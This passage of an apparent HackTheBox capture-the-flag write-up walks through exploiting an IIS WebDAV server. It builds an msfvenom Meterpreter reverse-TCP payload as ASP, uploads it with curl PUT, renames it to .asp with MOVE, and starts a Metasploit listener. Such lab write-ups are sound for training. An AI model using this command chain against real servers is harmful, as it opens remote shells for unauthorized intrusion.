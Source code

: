 So from the ```davtest``` results, we see that we can upload a ```.txt``` file. A [previous HackTheBox challenge](https://github.com/BurntxNoodle/PenetrationTesting/tree/master/HTB%20-%20Devel) I remember deals with IIS and it deals with the webserver executing ASPX files. Checking out the response headers [by firefox dev tools](https://o7planning.org/en/11637/how-to-view-http-headers-in-firefox) I see the following:

![image](https://user-images.githubusercontent.com/41026969/71648809-25ae6b80-2cd7-11ea-83bd-9ab7aedbe950.png)

The ```Powered by: ASP.NET``` means that it executes ```.asp``` files (asp is used mainly for older, early 2000s OS), though we can't upload asp files (shown by the ```davtest PUT``` results. Though going back to the ```nmap``` enumeration I noticed that under ```Public options``` it lists ```MOV``` which means we can rename it to an ```.asp``` file and get it to execute. This should create us a reverse shell.

### Exploitation 

To create the payload, I use ```msfvenom```. From [this cheatsheet](https://redteamtutorials.com/2018/10/24/msfvenom-cheatsheet/) and knowing the information about the box gathered by the enumeration techniques, I use this payload under ```windows meterpreter reverse_tcp```: 

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f exe > shell.exe
```
Though instead of outputting the format as an ```exe``` and saving it as ```shell.exe``` we need to replace it with ```.asp```. (msfvenom allows you to output as text and you can confirm by doing ```msfvenom -lf``` which lists the formats). This is the msfvenom command I do:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.27 LPORT=4444 -f asp > shell.txt
```

Now I need to upload the file and reading through [curl's manpage](https://curl.haxx.se/docs/manpage.html) you can pair it with PUT and MOVE.

PUTting the text file [thanks to this stackoverflow page](https://stackoverflow.com/questions/5143915/test-file-upload-using-http-put-method)

```
curl -X PUT -T "shell.txt" "http://10.10.10.15/shell.txt"
```

Now, MOVing the text file to ```shell.asp``` (essentially renaming it from ```shell.txt```, ```to shell.asp```) [thanks to this website](https://www.qed42.com/blog/using-curl-commands-webdav)

```
curl -X MOVE --header 'Destination:http://10.10.10.15/shell.asp' 'http://10.10.10.15/shell.txt'
```

Now I need to create a metasploit listener (note it's important to use the same payload and port used in the msfvenom step):

```
msf5 > use multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 10.10.14.27
LHOST => 10.10.14.27
msf5 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf5 exploit(multi/handler) > run -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf5 exploit(multi/handler) > 
```
